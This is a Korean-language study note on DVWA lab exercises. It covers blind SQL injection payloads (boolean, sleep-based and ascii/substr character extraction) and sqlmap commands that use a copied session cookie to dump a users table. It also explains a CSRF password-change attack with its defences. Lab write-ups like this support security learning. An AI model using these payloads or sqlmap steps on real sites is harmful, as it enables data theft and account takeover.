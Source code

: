 # DVWA 03

---

# SQL Injection(blind)


악용되면 데이터베이스의 정보를 다 털 수 있다. 매우위험!!


검색엔진 등에서 주로 테스트됨. 결과가 true 혹은 false로 나타날 때 시도할 수 있음. 


* database의 information 스키마? 여기에 mysql의 메타데이터, 모든 정보가 담겨있다고 함. 그래서 주로 여기에 공격이 시도됨. DB명, 테이블명 등을 모두 포함하기 때문.




blind sql injectioin이 가능한지 확인하기?


`1' OR 1=1#` 이 쿼리가 먹는지 확인한다. true가 뜨면 되는거.


그리고 `1' AND 1=2#`에서 false가 나오는지 확인.


sleep?이라는걸 쓸수도 있대. delay를 살짝 주는 것.


`1' AND sleep(5)#` 이래 입력하고 검색결과가 5초 뒤에 나오는지 확인한다. 그러면 트루인거임.




<br></br>
---

## low




검색창에 다음과 같이 입력. 


> `1' AND ascii(substr((select first_name from users where user_id='1'), 1, 1))>91#`


* `(select first_name from users where user_id='1')` 이거의 결과값을 이하 함수의 첫 인자로 사용 
* `substr()` 첫 인자의 몇번째부터 몇개를 따올건지 세개의 파라미터로 지정해줌. 
* `ascii()` ascii값으로 변환하는 함수. 


하나씩 늘려가며 대입해봤을 때 **가장 먼저 false가 뜨는 그 값**이 아이디의 첫 글자라고 유추할 수 있겠다. 

* substr((select first_name from users where user_id='1'), **n**, 1)) 이면 n번째 글자를 의미함. 이걸 이용해서 모든 글자를 알아내 조합하면 되는 것인디...


사람이 다 하기엔 너무 노가다라서... 이걸 자동화해서 터는... 그런 툴이 있다. SQL MAP이라는건데


[[SQL_MAP_download]](https://sqlmap.org/)


확인 가능한 폴더에서 압축 풀어주고,


해킹하고자 하는 사이트의 개발자도구(F12) 콘솔에 다음과 같이 입력해준다.


> `console.log(document.cookie);`


그리고 뜨는 이거(`security=low; PHPSESSID=7cjf6r14an9h4b5lmqsabcqhvr`
)를 카피해서

![SI_low1](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_low1.jpg)



아까 SQL MAP을 다운받은 경로에서 다음과 같이 입력


> `python sqlmap.py -u "[대상 링크]" --cookie="[아까복사한쿠키]"`



> `python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=7cjf6r14an9h4b5lmqsabcqhvr" `

* --current-db 하면 현재 웹사이트에서 사용하는 DB명을 알 수 있음

![SI_low2](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_low2.jpg)

* -D [DB명, ex) dvwa] --tables 하면 테이블명 알아내기. 

* -T [table명, ex) users] -dump 하면 뭐냐 해당 테이블의 덤프를 딴다고? 

-- 덤프란? 데이터를 압축해서 새로운 뭔가를 만드는... 전체 조회? 느낌으로도 사용되는듯


![SI_low3](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_low3.jpg)



<br></br>
---

## medium


proxy를 사용하되 low와 기본적인건 동일함. 

> proxy의 ID부분 인자를 `1 AND ascii(substr((select first_name from users where user_id=1),1,1))>91#`으로 변경 후 forward


![SI_mid1](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_mid1.jpg)


<br></br>
---

## high



얘도 끝에 주석만 잘 넣어주면 low랑 똑같다! 


굿. 


<br></br>
---

## impossible


예아. 




<br></br>
---

# CSRF



pw를 바꿀 때 뭔가 권한접근을 따내는거.


새로운 패스워드를 바꾸려할 때 파라미터가 get방식으로 웹 창에 다 보이자나


그럼 그거를 조작하는 방식이에용...


원하는 pw로 변경하고 submit했을 때의 그 URL을 short시켜서, 그럴듯한 가짜 링크에서 리다이렉션되도록 해둔 뒤... 


누군가 링크로 들어가면 그 유저의 패스워드가 해커가 설정해둔걸로 변경되는 것. 


기존 pw를 함께 입력하게 한다던가 토큰을 써서 접근권한을 제한하면 막을 수 있다. 



**굿**





